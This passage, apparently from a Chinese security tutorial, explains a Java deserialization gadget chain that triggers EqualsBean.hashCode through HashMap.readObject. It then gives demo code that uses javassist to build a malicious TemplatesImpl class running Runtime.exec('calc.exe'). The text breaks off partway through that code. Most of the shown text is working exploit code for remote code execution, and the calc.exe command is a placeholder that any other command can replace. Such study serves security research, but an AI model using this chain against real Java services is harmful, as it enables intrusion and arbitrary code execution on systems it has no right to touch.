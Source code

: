 [![](assets/1701071934-944e5df3b5e2559e765327389da42b50.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223118-215ac4be-8ad6-1.png)  
this.\_obj 由 EqualsBean 的构造函数传入，是我们可控的  
[![](assets/1701071934-3308a71a5216269334aad7292741c844.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223124-24d2a6ac-8ad6-1.png)  
因为在 HashMap 的 readobject 方法中，会调用 hash(key)，进而调用 key.hashCode()，所以我们可以利用 HashMap 作为入口构造反序列化链子

## demo

util.java

```plain
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import java.io.*;
import java.lang.reflect.Field;

public class util {
    public static Object getTeml() throws Exception{
        // 动态构造恶意 TemplatesImpl 对象
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("asdasdasasd");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "Evil" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        // 获得其变量
        Field name = templates.getClass().getDeclaredField("_name");
        Field clazz = templates.getClass().getDeclaredField("_class");
        Field factory = templates.getClass().getDeclaredField("_tfactory");
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        // 赋予修改权限
        name.setAccessible(true);
        clazz.setAccessible(true);
```